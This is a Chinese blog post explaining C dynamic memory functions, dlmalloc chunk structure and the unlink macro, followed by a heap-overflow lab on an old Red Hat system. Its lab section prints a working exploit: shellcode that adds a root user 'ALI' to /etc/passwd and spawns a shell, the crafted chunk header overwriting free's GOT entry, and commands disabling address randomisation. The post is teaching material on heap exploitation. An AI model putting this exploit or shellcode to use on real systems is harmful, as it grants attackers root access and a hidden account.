

<!DOCTYPE html>


<html lang="zh-CN">
  

    <head>
      <meta charset="utf-8" />
       
      <meta name="keywords" content="c,c++,java,python,leetcode,algorithm,reading,life,moods,machine-learning,data-mining,deep-learning,AI" />
       
      <meta name="description" content="一个分享机器学习、算法与数据结构，个人学习心得、读书笔记、生活的博客。" />
      
      <meta
        name="viewport"
        content="width=device-width, initial-scale=1, maximum-scale=1"
      />
      <title>C动态内存管理 | Malloc 的原理 | 堆溢出攻击 |  细语呢喃</title>
  <meta name="generator" content="hexo-theme-ayer">
      
      <link rel="shortcut icon" href="/images/site/avatar.jpg" />
       
<link rel="stylesheet" href="/dist/main.css">

      <link
        rel="stylesheet"
        href="https://cdn.jsdelivr.net/gh/Shen-Yu/cdn/css/remixicon.min.css"
      />
      
<link rel="stylesheet" href="/css/custom.css">
 
      <script src="https://cdn.jsdelivr.net/npm/pace-js@1.0.2/pace.min.js"></script>
       

<script type="text/javascript">
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','//www.google-analytics.com/analytics.js','ga');

ga('create', 'UA-69270533-1', 'auto');
ga('send', 'pageview');

</script>


 
<script>
var _hmt = _hmt || [];
(function() {
	var hm = document.createElement("script");
	hm.src = "https://hm.baidu.com/hm.js?d6a8cb42bd9ae728375b6726daa75e95";
	var s = document.getElementsByTagName("script")[0]; 
	s.parentNode.insertBefore(hm, s);
})();
</script>


      <!-- mermaid -->
      
    </head>
  </html>
</html>


<body>
  <div id="app">
    
    <script data-ad-client="{{ theme.google_adsense.app_id }}" async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
    
    
      
    <main class="content on">
      <section class="outer">
  <article
  id="post-c-dynamic-memory-allocation-and-the-data-struct-of-malloc-and-heap-overflow-attack"
  class="article article-type-post"
  itemscope
  itemprop="blogPost"
  data-scroll-reveal
>
  <div class="article-inner">
    
    <header class="article-header">
       
<h1 class="article-title sea-center" style="border-left:0" itemprop="name">
  C动态内存管理 | Malloc 的原理 | 堆溢出攻击
</h1>
 

      
    </header>
     
    <div class="article-meta">
      <a href="/c-dynamic-memory-allocation-and-the-data-struct-of-malloc-and-heap-overflow-attack/" class="article-date">
  <time datetime="2017-02-01T11:18:54.000Z" itemprop="datePublished">2017-02-01</time>
</a> 
  <div class="article-category">
    <a class="article-category-link" href="/categories/study/">study</a> / <a class="article-category-link" href="/categories/study/%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8/">信息安全</a>
  </div>
  
<div class="word_count">
    <span class="post-time">
        <span class="post-meta-item-icon">
            <i class="ri-quill-pen-line"></i>
            <span class="post-meta-item-text"> 字数统计:</span>
            <span class="post-count">2.3k</span>
        </span>
    </span>

    <span class="post-time">
        &nbsp; | &nbsp;
        <span class="post-meta-item-icon">
            <i class="ri-book-open-line"></i>
            <span class="post-meta-item-text"> 阅读时长≈</span>
            <span class="post-count">10 分钟</span>
        </span>
    </span>
</div>
 
       
        <div class="word_count">
    <span class="post-meta-item-icon">
        <i class="ri-eye-fill"></i> 
        阅读数:<span id="/c-dynamic-memory-allocation-and-the-data-struct-of-malloc-and-heap-overflow-attack/" data-flag-title="C动态内存管理 | Malloc 的原理 | 堆溢出攻击" class="leancloud_visitors">0</span>次
    </span>
</div>
      
    </div>
      
    <div class="tocbot"></div>


  
    <div class="article-entry" itemprop="articleBody">
       
  <p>本文介绍如下内容</p>
<ul>
<li>C/C++中动态内存语句使用如malloc等</li>
<li>介绍dlmalloc 内存管理的实现</li>
<li>利用dlmalloc的数据结构进行堆溢出攻击的原理</li>
<li>堆溢出攻击实验</li>
</ul>
<a id="more"></a>
<h2 id="cc语言中动态内存语句的使用">C/C++语言中动态内存语句的使用</h2>
<h3 id="内存分配">内存分配</h3>
<ul>
<li><p>malloc (size_t size);</p>
<ul>
<li>分配size个字节的内存，并返回指向该内存的指针</li>
<li><strong>没有初始化所分配的内存</strong></li>
</ul></li>
<li><p>realloc (void *p, size_t size);</p>
<ul>
<li><p>将p指向的内存块大小改为size个字节</p></li>
<li><p>新内配的内存没有初始化</p></li>
<li><p>p必须是以前调用malloc(),calloc()或者realloc()返回的结果，或者为空</p>
<ul>
<li>p = NULL时，等价于malloc(size);</li>
</ul></li>
</ul></li>
<li><p>calloc (size_t nmemb, size_t size);</p>
<ul>
<li>为具有nmemb个元素的，元素大小为size的数组分配内存，返回指向分配数组的指针</li>
<li>新分配的内存初始化为0</li>
</ul></li>
<li><p>C++中的new的用法比较多，举个例子把</p></li>
</ul>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">int</span> *pi = <span class="keyword">new</span> <span class="keyword">int</span>;  <span class="comment">//没有初始化</span></span><br><span class="line"><span class="keyword">int</span> *p = <span class="keyword">new</span> <span class="keyword">int</span>(<span class="number">5</span>); <span class="comment">//初始化为5</span></span><br><span class="line"><span class="keyword">double</span> *pd = <span class="keyword">new</span> <span class="keyword">double</span>(<span class="number">55.9</span>);</span><br><span class="line"><span class="keyword">int</span> * arr1 = <span class="keyword">new</span> <span class="keyword">int</span>[<span class="number">10</span>] <span class="comment">//没有初始化</span></span><br><span class="line"><span class="keyword">int</span> * arr2= <span class="keyword">new</span> <span class="keyword">int</span>[<span class="number">10</span>]&#123; <span class="number">1</span>,<span class="number">2</span>,<span class="number">3</span> &#125;; <span class="comment">//前三个元素初始化为1，2，3</span></span><br></pre></td></tr></table></figure>
<h3 id="内存释放">内存释放</h3>
<ul>
<li><p>free (void *p);</p>
<ul>
<li><p>释放p指向的内存空间，<strong>p必须是以前调用malloc(),calloc()或者realloc()返回的结果</strong>，或者为NULL</p>
<ul>
<li>p = NULL时，不执行操作</li>
</ul></li>
<li><p><strong>对已释放过的内存进行释放会导致危险的结果</strong>。所以一个好的编程习惯是把free后的指针<strong>设为NULL</strong></p></li>
</ul></li>
<li><p>delete和delete[]</p>
<ul>
<li>需要和new配对使用，之前的用new，则delete,之前的new [] ，则用delete[]</li>
</ul></li>
</ul>
<p> </p>
<h2 id="常见的坑">常见的坑</h2>
<h3 id="初始化问题">初始化问题</h3>
<ul>
<li>malloc不对分配的内存进行初始化，如果需要初始化，可以用calloc来分配，或者用memset()来初始化</li>
<li>初始化错误可能导致信息泄露（Information Leak）</li>
</ul>
<h3 id="检查返回值错误">检查返回值错误</h3>
<p>内存分配可能会失败，需要对失败的情况进行处理</p>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">int</span> *p = (<span class="keyword">int</span> *)<span class="built_in">malloc</span>(<span class="keyword">sizeof</span>(<span class="keyword">int</span>) * <span class="number">5</span>);</span><br><span class="line"><span class="keyword">if</span> (p != <span class="literal">NULL</span>) &#123;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span> &#123;</span><br><span class="line"></span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>C++中new可以用try catch:</p>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">try</span> &#123;</span><br><span class="line">    <span class="keyword">int</span> *pi = <span class="keyword">new</span> <span class="keyword">int</span>;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">catch</span> (bad_alloc) &#123;</span><br><span class="line"></span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h3 id="其它">其它</h3>
<ul>
<li>多次释放内存 如double free</li>
</ul>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">int</span> *x = (<span class="keyword">int</span> *) <span class="built_in">malloc</span>(n * <span class="keyword">sizeof</span>(<span class="keyword">int</span>));</span><br><span class="line"><span class="built_in">free</span>(x);</span><br><span class="line"><span class="keyword">int</span> *y = (<span class="keyword">int</span> *) <span class="built_in">malloc</span>(n * <span class="keyword">sizeof</span>(<span class="keyword">int</span>));</span><br><span class="line"><span class="built_in">free</span>(x);</span><br></pre></td></tr></table></figure>
<ul>
<li><p>引用已经释放的内存</p>
<ul>
<li>for (p = head; p != NULL; p = p-&gt;next) free(p);</li>
<li>正确的应该为：</li>
</ul></li>
</ul>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">for</span> (p = head; p != <span class="literal">NULL</span>; p = q) &#123;</span><br><span class="line">    q = p-&gt;next; </span><br><span class="line">    <span class="built_in">free</span>(p);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<ul>
<li><p>内存管理函数需要匹配</p>
<ul>
<li>malloc、calloc、realloc &lt;--&gt;free</li>
<li>new &lt;--&gt; delete</li>
<li>new[] &lt;--&gt; delete[]</li>
</ul></li>
<li><p>malloc(0)</p>
<ul>
<li>与平台有关，有的返回长度为0的缓冲区(MSVC），有的返回NULL，</li>
<li>应该避免这种，以及malloc(-1) 是malloc(2^32 - 1);</li>
</ul></li>
<li><p>内存泄漏（Memory Leak）</p>
<ul>
<li>已分配的没有被释放，最后可用的会使得可用内存越来越小，造成服务器宕机</li>
</ul></li>
</ul>
<p> </p>
<h2 id="dlmalloc-内存管理的实现">dlmalloc 内存管理的实现</h2>
<p>GNU C类库及大多数Linux版本将Doug Lea的malloc实现（dlmalloc）作为默认内存分配器，下面介绍dlmalloc中的内存管理</p>
<h3 id="内存块分类">内存块分类</h3>
<ul>
<li><p>在dlmalloc中，内存块有2类，已分配块和空闲块。</p></li>
<li><p>空闲块通过双向链表形式组织起来</p></li>
<li><p>在2类块中，都用一个PREV_INUSE位来标识<strong>上一个块</strong>是否已被分配</p>
<ul>
<li>1表示有分配，0表示没有分配</li>
<li>因为malloc一定为偶数，所以拿最后一个位来标记</li>
</ul></li>
<li><p>它们的结构可以参考如下图：</p>
<ul>
<li>   </li>
</ul></li>
<li><p>空闲的双向链表如下图</p>
<ul>
<li></li>
</ul></li>
</ul>
<h3 id="空闲块合并">空闲块合并</h3>
<p>调用free时，空闲块可能被合并：</p>
<ul>
<li>若该被释放的块上一块位空闲块，该会被空闲链表中解开并与被释放的块合并</li>
<li>如果所释放的块的下一块为空闲块，也要被解开和合并</li>
</ul>
<p>其所用的是Unlink宏操作，从双向链表中移除一个块</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">#define unlink(P,BK,FD)&#123;\</span><br><span class="line">FD &#x3D; P-&gt;fd;  \</span><br><span class="line">BK &#x3D; P-&gt;bk; \</span><br><span class="line">FD-&gt;bk &#x3D; BK;\</span><br><span class="line">BK-&gt;fd &#x3D; FD;\</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>如下图</p>
<p></p>
<h2 id="堆缓冲区溢出攻击">堆缓冲区溢出攻击</h2>
<ul>
<li>堆缓冲区溢出攻击比栈缓冲区溢出要难一些。堆溢出攻击常见的是通过<strong>破坏动态内存管理器所使用的数据结构</strong>，使得内存管理器在进行内存块操作时发生异常，最终导致执行攻击者提供的shellcode，如破坏数据结构来欺骗unlink宏。</li>
<li>如下面的的代码中存在漏洞：</li>
</ul>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span><span class="meta-string">&lt;stdlib.h&gt;</span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span><span class="meta-string">&lt;string.h&gt;</span></span></span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">(<span class="keyword">int</span> argc,<span class="keyword">char</span> *argv[])</span></span>&#123;</span><br><span class="line">	<span class="keyword">char</span> *first, *second, *third;</span><br><span class="line">	first=<span class="built_in">malloc</span>(<span class="number">666</span>);</span><br><span class="line">	second=<span class="built_in">malloc</span>(<span class="number">12</span>);</span><br><span class="line">	third=<span class="built_in">malloc</span>(<span class="number">12</span>);</span><br><span class="line">	<span class="built_in">strcpy</span>(first, argv[<span class="number">1</span>]);</span><br><span class="line">	<span class="built_in">free</span>(first);</span><br><span class="line">	<span class="built_in">free</span>(second);</span><br><span class="line">	<span class="built_in">free</span>(third);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<ul>
<li><p>在第9行free(first);时，如果下一块（程序中的第二块）内存没有被分配，那么free操作将会试图将其与第1块内存块合并。为此，需要检查第3块内存的PREV_INUSE标识。而当前块的下一块内存将其块大小作为偏移量使用</p>
<ul>
<li><p></p></li>
<li><p>于是攻击者输入668字节长度的以上数据，第1块内存将会堆溢出，使得第2块内存中的块管理数据被覆盖</p>
<ul>
<li><p>被溢出数据后覆盖的 第二个内存块构如下：</p>
<ul>
<li></li>
</ul></li>
<li><p>由于大小为-4，于是系统认为其下一块内存从当前内存块前4个字节开始，就是even int处所对应的4个字节，而由于其为偶数，最低位（PREV_INUSE）为0，因此系统认为第2块内存块为空闲块，因此调用unlink宏进行移除空闲链表，并进行合并。</p></li>
<li><p> 重点来了，此时unlink操作为</p>
<ul>
<li>FD = FUNCTION_POINTER-12; //这里的12为BK的偏移</li>
<li>BK = CODE_ADDRESS</li>
<li>FD-&gt;bk = <em>(FD + 12) = </em>(FUNCTION_POINTER) = BK = CODE_ADDRESS</li>
<li>就是说*(FUNCTION_POINTER) = CODE_ADDRESS <strong>就是 Write Anything to Anywhere!</strong></li>
<li>这里CODE_ADDRESS为shellcode地址，而FUNCTION_POINTER为要覆盖的函数指针地址! 比如free函数！</li>
</ul></li>
</ul></li>
</ul></li>
</ul>
<p> </p>
<h2 id="堆溢出攻击实验">堆溢出攻击实验</h2>
<h3 id="实验环境">实验环境</h3>
<p>使用的系统为Read Hat Enterprise Linux 4在终端中输入cat /proc/version显示如下内核信息：</p>
<ul>
<li>Linux version 2.6.9-5.EL (bhcompile@decompose.build.redhat.com) (gcc version 3.4.3 20041212 (Red Hat 3.4.3-9.EL4)) #1 Wed Jan 5 19:22:18 EST 2005</li>
</ul>
<p>为了完成这个实验首先关闭内存随机化</p>
<ul>
<li>sysctl -w kernel.exec-shield-randomize=0</li>
</ul>
<h3 id="寻找地址">寻找地址</h3>
<p>gcc -ggdb -o bugcode.o bugcode.c</p>
<p>然后输入objdump -R bugcode.o得到如图：</p>
<p></p>
<p>我们将free作为Function_pointer，根据上面的原理</p>
<p>Fd = Function_pointer -12 =  0X08049644 -12 = 0x08049638  （这里是减去十进制的12）</p>
<p>Bk = codeAddress = first address + 8 （+8 的原因是因为first前8个字节在free过程中会被覆盖）</p>
<p></p>
<h3 id="代码构建">代码构建</h3>
<p></p>
<p>我们构建680的字节：</p>
<ul>
<li>前8个字节随意填充</li>
<li>shellcode（长度设置为X,这里的shellcode是创建用户名和密码都为ALI的用户）</li>
<li>然后填充664-8-X个字节（随意）</li>
<li>偶数整数</li>
<li>-4 补码为0xfffffffc</li>
<li>Fd 0x08049638</li>
<li>BK 0x0804a010</li>
</ul>
<p> </p>
<h3 id="最终代码">最终代码</h3>
<p>根据上述的步骤，构建出如下代码:</p>
<figure class="highlight c++"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#<span class="meta-keyword">include</span> <span class="meta-string">&lt;stdio.h&gt;  </span></span></span><br><span class="line"><span class="meta">#<span class="meta-keyword">include</span><span class="meta-string">&lt;stdlib.h&gt;  </span></span></span><br><span class="line"><span class="comment">/* add user ALI with password ALI*/</span></span><br><span class="line"><span class="keyword">char</span> shellcode[] = <span class="string">&quot;22222222\x31\xc0\x31\xdb\x6a\x0f\x58\x68\x6a\x73\x77\x64\x5b\xc1\xeb\x08\x53\x68\x2f\x70\x61\x73\x68\x2f\x65\x74\x63\x89\xe3\x68\x41\x41\xff\x01\x59\xc1\xe9\x08\xc1\xe9\x08\xcd\x80\x6a\x0f\x58\x68\x6a\x64\x6f\x77\x5b\xc1\xeb\x08\x53\x68\x2f\x73\x68\x61\x68\x2f\x65\x74\x63\x89\xe3\x68\x41\x41\xff\x01\x59\xc1\xe9\x08\xc1\xe9\x08\xcd\x80\x6a\x05\x58\x68\x41\x73\x77\x64\x5b\xc1\xeb\x08\x53\x68\x2f\x70\x61\x73\x68\x2f\x65\x74\x63\x89\xe3\x68\x41\x41\x01\x04\x59\xc1\xe9\x08\xc1\xe9\x08\xcd\x80\x89\xc3\x6a\x04\x58\x68\x41\x73\x68\x0a\x59\xc1\xe9\x08\x51\x68\x6e\x2f\x62\x61\x68\x3a\x2f\x62\x69\x68\x72\x6f\x6f\x74\x68\x4c\x49\x3a\x2f\x68\x3a\x30\x3a\x41\x68\x4b\x2e\x3a\x30\x68\x66\x77\x55\x57\x68\x68\x70\x31\x50\x68\x7a\x59\x65\x41\x68\x41\x61\x41\x51\x68\x49\x38\x75\x74\x68\x50\x4d\x59\x68\x68\x54\x42\x74\x7a\x68\x51\x2f\x38\x54\x68\x45\x36\x6d\x67\x68\x76\x50\x2e\x73\x68\x4e\x58\x52\x37\x68\x39\x4b\x55\x48\x68\x72\x2f\x59\x42\x68\x56\x78\x4b\x47\x68\x39\x55\x66\x5a\x68\x46\x56\x6a\x68\x68\x46\x63\x38\x79\x68\x70\x59\x6a\x71\x68\x77\x69\x53\x68\x68\x6e\x54\x67\x54\x68\x58\x4d\x69\x37\x68\x2f\x41\x6e\x24\x68\x70\x55\x6e\x4d\x68\x24\x36\x24\x6a\x68\x41\x4c\x49\x3a\x89\xe1\xba\x41\x41\x41\x7f\xc1\xea\x08\xc1\xea\x08\xc1\xea\x08\xcd\x80\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x68\x59\x59\x59\x59\x68\x58\x58\x58\x58\x68\x2f\x73\x68\x42\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xb0\x01\xb3\x01\xcd\x80&quot;</span></span><br><span class="line"><span class="string">&quot;22222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222222&quot;</span></span><br><span class="line"><span class="string">&quot;\x22\x22\x22\x22&quot;</span></span><br><span class="line"><span class="string">&quot;\xfc\xff\xff\xff&quot;</span></span><br><span class="line"><span class="string">&quot;\x38\x96\x04\x08&quot;</span></span><br><span class="line"><span class="string">&quot;\x10\xa0\x04\x08&quot;</span>;</span><br><span class="line">  </span><br><span class="line"><span class="function"><span class="keyword">int</span> <span class="title">main</span><span class="params">()</span> </span></span><br><span class="line"><span class="function"></span>&#123;  </span><br><span class="line">	<span class="comment">//(*(void(*)()) shellcode)();	</span></span><br><span class="line">	<span class="keyword">char</span> *first,*second,*third;</span><br><span class="line">	first=<span class="built_in">malloc</span>(<span class="number">666</span>);</span><br><span class="line">	second=<span class="built_in">malloc</span>(<span class="number">12</span>);</span><br><span class="line">	third=<span class="built_in">malloc</span>(<span class="number">12</span>);</span><br><span class="line">	<span class="built_in">memcpy</span>(first,shellcode,<span class="keyword">sizeof</span>(shellcode));</span><br><span class="line">	<span class="built_in">free</span>(first);</span><br><span class="line">	<span class="built_in">free</span>(second);</span><br><span class="line">	<span class="built_in">free</span>(third);</span><br><span class="line">	<span class="keyword">return</span> <span class="number">0</span>;  </span><br><span class="line">&#125;  </span><br><span class="line"></span><br></pre></td></tr></table></figure>
<p>几点说明：</p>
<ul>
<li>这里为了方便实验，直接把shellcode设为数组，而不是原来的argv[1]，然后使用的是memcpy函数</li>
<li>最后那个even int为了方便gdb查看，填充的是</li>
</ul>
<h3 id="查看代码效果">查看代码效果</h3>
<ul>
<li>gcc -ggdb -z execstack -g -o a test.c</li>
<li>gdb a</li>
</ul>
<p>用gdb设置断点，然后查看second附近的内存</p>
<p>覆盖前</p>
<p></p>
<p>覆盖后</p>
<p></p>
<p>由于上面代码的shellcode是创建用户名和密码都为ALI的用户，我们可以用如下的命令查看效果：</p>
<ul>
<li>tail /etc/passwd</li>
</ul>
<p>运行前</p>
<p></p>
<ul>
<li>./a</li>
</ul>
<p>运行后</p>
<p></p>
<p>实际上，上面的代码中malloc(668)同样能执行^ ^</p>
<h2 id="参考资料">参考资料</h2>
<ul>
<li>RUC 《程序设计安全》 - 梁彬</li>
</ul>
 
      <!-- reward -->
      
      <div id="reword-out">
        <div id="reward-btn">
          打赏
        </div>
      </div>
      
    </div>
    

    <!-- copyright -->
    
    <div class="declare">
      <ul class="post-copyright">
        <li>
          <i class="ri-copyright-line"></i>
          <strong>版权声明： </strong>
          
          本博客所有文章除特别声明外，著作权归作者所有。转载请注明出处！
          
        </li>
      </ul>
    </div>
    
    <footer class="article-footer">
       
<div class="share-btn">
      <span class="share-sns share-outer">
        <i class="ri-share-forward-line"></i>
        分享
      </span>
      <div class="share-wrap">
        <i class="arrow"></i>
        <div class="share-icons">
          
          <a class="weibo share-sns" href="javascript:;" data-type="weibo">
            <i class="ri-weibo-fill"></i>
          </a>
          <a class="weixin share-sns wxFab" href="javascript:;" data-type="weixin">
            <i class="ri-wechat-fill"></i>
          </a>
          <a class="qq share-sns" href="javascript:;" data-type="qq">
            <i class="ri-qq-fill"></i>
          </a>
          <a class="douban share-sns" href="javascript:;" data-type="douban">
            <i class="ri-douban-line"></i>
          </a>
          <!-- <a class="qzone share-sns" href="javascript:;" data-type="qzone">
            <i class="icon icon-qzone"></i>
          </a> -->
          
          <a class="facebook share-sns" href="javascript:;" data-type="facebook">
            <i class="ri-facebook-circle-fill"></i>
          </a>
          <a class="twitter share-sns" href="javascript:;" data-type="twitter">
            <i class="ri-twitter-fill"></i>
          </a>
          <a class="google share-sns" href="javascript:;" data-type="google">
            <i class="ri-google-fill"></i>
          </a>
        </div>
      </div>
</div>

<div class="wx-share-modal">
    <a class="modal-close" href="javascript:;"><i class="ri-close-circle-line"></i></a>
    <p>扫一扫，分享到微信</p>
    <div class="wx-qrcode">
      
    </div>
</div>

<div id="share-mask"></div>  
  <ul class="article-tag-list" itemprop="keywords"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/Linux/" rel="tag">Linux</a></li><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/heap/" rel="tag">heap</a></li></ul>

    </footer>
  </div>

   
  <nav class="article-nav">
    
      <a href="/diary-2017-02/" class="article-nav-link">
        <strong class="article-nav-caption">上一篇</strong>
        <div class="article-nav-title">
          
            想不出标题
          
        </div>
      </a>
    
    
      <a href="/wordpress-comment-email-notice-and-wordpress-latex-and-wordpress-reward/" class="article-nav-link">
        <strong class="article-nav-caption">下一篇</strong>
        <div class="article-nav-title">三个 wordpress 技巧</div>
      </a>
    
  </nav>

   
<!-- valine评论 -->
<div id="vcomments-box">
  <div id="vcomments"></div>
</div>
<script src="//cdn1.lncld.net/static/js/3.0.4/av-min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/valine@1.4.14/dist/Valine.min.js"></script>
<script>
  new Valine({
    el: "#vcomments",
    app_id: "fVcjWMD8aI6F0qEfKdUaHa4f-gzGzoHsz",
    app_key: "b26lBsbwmVyxTSnNrsBrnv3U",
    path: window.location.pathname,
    avatar: "monsterid",
    placeholder: "给我的文章加点评论吧~",
    recordIP: true,
  });
  const infoEle = document.querySelector("#vcomments .info");
  if (infoEle && infoEle.childNodes && infoEle.childNodes.length > 0) {
    infoEle.childNodes.forEach(function (item) {
      item.parentNode.removeChild(item);
    });
  }
</script>
<style>
  #vcomments-box {
    padding: 5px 30px;
  }

  @media screen and (max-width: 800px) {
    #vcomments-box {
      padding: 5px 0px;
    }
  }

  #vcomments-box #vcomments {
    background-color: #fff;
  }

  .v .vlist .vcard .vh {
    padding-right: 20px;
  }

  .v .vlist .vcard {
    padding-left: 10px;
  }
</style>

 
   
     
</article>

</section>
      <footer class="footer">
  <div class="outer">
    <ul>
      <li>
        Copyrights &copy;
        2013-2021
        <i class="ri-heart-fill heart_icon"></i> hrwhisper
      </li>
    </ul>
    <ul>
      <li>
        
        
        
        由 <a href="https://hexo.io" target="_blank">Hexo</a> 强力驱动
        <span class="division">|</span>
        主题 - <a href="https://github.com/Shen-Yu/hexo-theme-ayer" target="_blank">Ayer</a>
        
      </li>
    </ul>
    <ul>
      <li>
        
      </li>
    </ul>
    <ul>
      
    </ul>
    <ul>
      
    </ul>
    <ul>
      <li>
        <!-- cnzz统计 -->
        
      </li>
    </ul>
  </div>
</footer>

 
  <script src="https://cdn.bootcss.com/jquery/3.2.1/jquery.min.js"></script>
<script src="//cdn1.lncld.net/static/js/2.5.0/av-min.js"></script>
<script type="text/javascript">
var leancloud_app_id  = 'fVcjWMD8aI6F0qEfKdUaHa4f-gzGzoHsz';
var leancloud_app_key = 'b26lBsbwmVyxTSnNrsBrnv3U';

AV.init({
    appId: leancloud_app_id,
    appKey: leancloud_app_key
});

// https://leancloud.cn/docs/leanstorage_guide-js.html#hash1873238850
function showTime(Counter) {
  console.log("show time");
  const query = new AV.Query(Counter);
  const obj = $(".leancloud_visitors");

  let urls = [];
  obj.each(function() {
    urls.push($(this).attr('id').trim());
  });
  query.containedIn('url', urls);
  query.find().then((results) => {
      if (results.length > 0) {
        let data = results;
        obj.each(function() {
          let url = $(this).attr('id').trim();		
          for (let i = 0; i < data.length; i++) {
            let object = data[i];
            let content = object.get('time');
            let _url = object.get('url');
            if(url == _url){
              $(this).text(content);
            }
          }
        });
      }
  }).catch((error) => {
    console.error(error);
  });
}

function addCount(Counter) {
  const obj = $(".leancloud_visitors");
	url = obj.attr('id').trim();
  title = obj.attr('data-flag-title').trim();

  const query = new AV.Query(Counter);
  query.equalTo("url", url);

	query.find().then((results) => {
			if (results.length > 0) {
				var counter = results[0];
        counter.increment("time", 1);
        counter.set("title", title);
				counter.save(null, {fetchWhenSave: true}).then(() => {
          let content = counter.get('time');
          $(document.getElementById(url)).text(content);
        }, (error)=> {
						console.log('Failed to save Visitor num, with error message: ' + error.message);
        });
			} else {
				var newcounter = new Counter();
				newcounter.set("title", title);
				newcounter.set("url", url);
        newcounter.set("time", 1);
        newcounter.save(null, {fetchWhenSave: true}).then(() => {
          var content = newcounter.get('time');
          $(document.getElementById(url)).text(content);
        }, (error)=> {
          console.log('Failed to create' + error.message);
        });
			}
	}).catch((error) => {
    console.error(error);
  });
}

$(function() {
  var Counter = AV.Object.extend("Counter");
	if ($('.leancloud_visitors').length == 1) {
		addCount(Counter);
	} else {
	  showTime(Counter);
  }
}); 
</script>


      <div class="float_btns">
        <div class="totop" id="totop">
  <i class="ri-arrow-up-line"></i>
</div>

<div class="todark" id="todark">
  <i class="ri-moon-line"></i>
</div>

      </div>
    </main>
    <aside class="sidebar on">
      <button class="navbar-toggle"></button>
<nav class="navbar">
  
  <div class="logo">
    <a href="/"></a>
  </div>
  
  <ul class="nav nav-main">
    
    <li class="nav-item">
      <a class="nav-item-link" href="/">主页</a>
    </li>
    
    <li class="nav-item">
      <a class="nav-item-link" href="/archives">归档</a>
    </li>
    
    <li class="nav-item">
      <a class="nav-item-link" href="/categories">分类</a>
    </li>
    
    <li class="nav-item">
      <a class="nav-item-link" href="/tags">标签</a>
    </li>
    
    <li class="nav-item">
      <a class="nav-item-link" href="/friend-link">友链</a>
    </li>
    
    <li class="nav-item">
      <a class="nav-item-link" href="/leetcode-algorithm-solution">leetcode题解</a>
    </li>
    
    <li class="nav-item">
      <a class="nav-item-link" href="/about-me">关于我</a>
    </li>
    
  </ul>
</nav>
<nav class="navbar navbar-bottom">
  <ul class="nav">
    <li class="nav-item">
